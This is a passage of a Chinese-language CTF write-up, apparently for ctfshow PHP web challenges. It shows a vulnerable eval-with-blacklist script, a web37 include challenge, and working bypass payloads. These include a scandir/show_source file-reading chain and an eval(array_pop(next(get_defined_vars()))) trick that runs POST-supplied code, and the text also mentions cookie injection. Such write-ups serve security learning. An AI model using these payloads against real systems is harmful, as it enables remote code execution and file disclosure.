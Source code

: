 ```php
<?php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
        
}else{
    highlight_file(__FILE__);
}
```

过滤的是中文的（），不是英文的，所以31题的无参传payload是可以的(其实没有过滤空格，感觉有很多方法)

`?c=show_source(next(array_reverse(scandir(pos(localeconv())))));`

下面介绍wp视频里的一种特殊的办法

首先

GET  `?c=print_r(get_defined_vars());&a=111`

POST`1=2313`

回显

```php
Array ( [_GET] => Array ( [c] => print_r(get_defined_vars()); [a] => 111 ) [_POST] => Array ( [1] => 2313 ) [_COOKIE] => Array ( ) [_FILES] => Array ( ) [c] => print_r(get_defined_vars());)
```

发现**GET**和**POST**传进去的参数都包含在了数组里面

这样可操作空间就大了

GET`?c=eval(array_pop(next(get_defined_vars())));`

POST`1=phpinfo();`

**next**得到的是一个数组

> **array_pop** — 弹出数组最后一个单元（出栈）

用**array_pop**弹出后就变成数据(字符串或数字)，放在**eval**里面就可以执行啦

可以看到里面有个cookie参数，所以本题其实也可以**cookie注入**(具体参考[GXYCTF2019]禁止套娃)

+++

### <font color='orange'>web37-web39</font>

+++

#### 37

```php
<?php
//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```
